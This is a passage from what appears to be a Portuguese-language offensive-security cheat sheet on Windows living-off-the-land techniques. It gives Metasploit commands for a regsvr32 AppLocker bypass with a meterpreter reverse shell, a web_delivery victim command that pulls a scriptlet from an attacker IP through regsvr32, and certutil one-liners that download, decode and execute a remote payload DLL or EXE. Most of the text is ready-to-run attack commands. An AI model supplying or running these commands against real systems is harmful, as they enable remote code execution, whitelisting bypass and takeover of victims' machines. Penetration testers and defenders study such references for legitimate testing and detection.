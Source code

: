 Esse módulo permite que um invasor execute comandos arbitrários no contexto do usuário atual, o que pode levar à execução remota de código e controle total do sistema comprometido.

Para usar esse módulo, é necessário ter acesso ao Metasploit Framework e conhecimento sobre como configurar e executar um payload específico.

Aqui está um exemplo de como usar o módulo `regsvr32` do Metasploit:

```
use exploit/windows/local/regsvr32_applocker_bypass
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <seu endereço IP>
set LPORT <sua porta>
exploit
```

Certifique-se de substituir `<seu endereço IP>` pelo seu endereço IP real e `<sua porta>` pela porta desejada para a conexão reversa.

Após a execução bem-sucedida do exploit, você terá acesso ao prompt do Meterpreter, que permite executar comandos no sistema alvo e explorar ainda mais a rede comprometida.
```bash
use multi/script/web_delivery
set target 3
set payload windows/meterpreter/reverse/tcp
set lhost 10.2.0.5
run
#You will be given the command to run in the victim: regsvr32 /s /n /u /i:http://10.2.0.5:8080/82j8mC8JBblt.sct scrobj.dll
```
**Você pode baixar e executar facilmente um zombie Koadic usando o stager regsvr**

## Certutil

Baixe um B64dll, decodifique-o e execute-o.
```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```
Baixe um arquivo B64exe, decodifique-o e execute-o.
```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```
**Detectado pelo defensor**



<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
